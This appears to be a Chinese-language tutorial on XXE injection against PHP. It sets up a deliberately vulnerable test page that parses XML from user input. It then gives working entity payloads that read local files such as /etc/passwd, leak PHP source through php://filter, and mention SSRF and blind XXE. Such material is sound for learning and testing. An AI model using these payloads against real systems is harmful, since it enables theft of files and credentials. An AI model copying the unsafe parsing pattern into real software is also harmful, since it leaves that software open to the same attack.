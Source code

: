 # 利用方式
## xxe注入
以php环境为例，index.php内容如下：
```php
<?php
  $xml=simplexml_load_string($_GET['xml']);
  print_r((string)$xml);
?>
```
### 读取本地文件
![](https://thief.one/upload_image/20170620/1.png)

利用各种协议可以读取文件。比如file协议，这里的测试环境为win，所以这里我选择读取c盘里的TEST.txt。
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY  file SYSTEM "file:///c://TEST.txt">]>
<root>&file;</root>
```
将上述xml进行url编码后传进去，可以发现读取了TEST.txt中的内容。
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/2.jpg?raw=true)

我这里测试时，如果不进行url编码则不能成功解析。

若使用fill协议，在unix环境下，可以用如下xml来读取passwd：
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY  file SYSTEM "file:///etc/passwd">]>
<root>&file;</root>
```

如果要读取php文件，因为php、html等文件中有各种括号`<`，`>`，若直接用file读取会导致解析错误，此时可以利用`php://filter`将内容转换为base64后再读取。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [<!ENTITY  file SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
<root>&file;</root>
```
这里同样先经过url编码后再传入。读取结果如下:
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/3.jpg?raw=true)

### 命令执行
php环境下，xml命令执行要求php装有expect扩展。而该扩展默认没有安装。这里暂不进行测试。

### 内网探测/SSRF
由于xml实体注入攻击可以利用`http://`协议，也就是可以发起http请求。可以利用该请求去探查内网，进行SSRF攻击。

## bind xxe
以php环境为例，现在更改index.php内容如下：
```php
<?php
  $xml=simplexml_load_string($_GET['xml']);
?>
```
少了print_r，即没有回显消息。这个时候我们可以利用参数实体，通过发起http请求来攻击。
